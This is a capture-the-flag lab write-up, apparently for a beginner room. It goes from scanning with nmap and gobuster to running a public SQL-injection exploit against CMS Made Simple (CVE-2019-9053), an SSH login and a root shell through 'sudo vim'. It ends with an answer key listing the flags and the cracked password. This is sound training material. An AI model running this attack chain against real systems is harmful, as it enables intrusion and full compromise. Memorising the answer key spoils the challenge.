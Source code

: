 # Simple CTF

Beginner level ctf

## Set up environment IP as target IP_MACHINE

`export IP=10.10.179.1`  

![IP](./images/IP.png)


## Enumeration and Scanning

* Check the IP from browser 

	![website](./images/website.png)

* Scan open port with nmap

	`nmap -sV -sC $IP | tee nmap-scan.txt`  

	File scan resulted [here](./files/nmap-scan.txt)  

	![nmap-scan](./images/nmap-scan.png)

* Scan directory with gobuster
	
	* Default directory scan
		
		`gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt | tee gobuster-default.txt`  

		File scan resulted [here](./files/gobuster-default.txt)  

		![gobuster-default](./images/gobuster-default.png)

	* Sub directory scan
		
		`gobuster dir -u $IP/simple -w /usr/share/wordlists/dirb/common.txt | tee gobuster-simple.txt`  
		
		File scan resulted [here](./files/gobuster-simple.txt)  

		![gobuster-simple](./images/gobuster-simple.png)

* Try to open website

	* Check the sub directory
		
		![website-simple](./images/website-simple.png)

	* Check website version
	
		![website-version](./images/website-version.png)

	* Check website posted
	
		![website-posted](./images/website-posted.png)


* Find Exploit from DB

	* Search exploit 
		
		`searchsploit CMS made simple 2.2.8`  

		![exploit-search](./images/exploit-search.png)

	* Download exploit file
		
		`searchsploit -m php/webapps/46635.py`  

		![exploit-download](./images/exploit-download.png)

	* Check CVE number 
		
		`nano 46635.py`  

		![cve-number](./images/cve-number.png)


## Gaining Acecss & Exploitation

* Run the exploit file with python2

	`python2 46635.py -u http://$IP/simple --crack -w /usr/share/wordlists/rockyou.txt`  

	![script-run](./images/script-run.png)
	
	Resulted  

	![exploit-pass](./images/exploit-pass.png)

* Login to target machine

	`ssh -p 2222 mitch@$IP`  

	![ssh-login](./images/ssh-login.png)

* Get the user.txt

	![user-txt](./images/user-txt.png)

* Get root access

	* Check privilege escalation with sudo
	
		`sudo -l`  

		![sudo-l](./images/sudo-l.png)

	* Run sudo to get root access
	
		`sudo vim -c ':!/bin/sh'`  

		![home-user](./images/home-user.png)

	* Get `root.txt`
	
		![root-txt](./images/root-txt.png)

## Questions and Answers

* How many services are running under port 1000?

	`2`
	
* What is running on the higher port?

	`ssh`
	
* What's the CVE you're using against the application? 

	`CVE-2019-9053`
	
* To what kind of vulnerability is the application vulnerable?

	`SQLi`

* What's the password?

	`secret`

* Where can you login with the details obtained?

	`ssh`
	
* What's the user flag?

	`G00d j0b, keep up!`
		
* Is there any other user in the home directory? What's its name?

	`sunbath`
	
* What can you leverage to spawn a privileged shell?

	`vim`
	
* What's the root flag?

	`W3ll d0n3. You made it!`
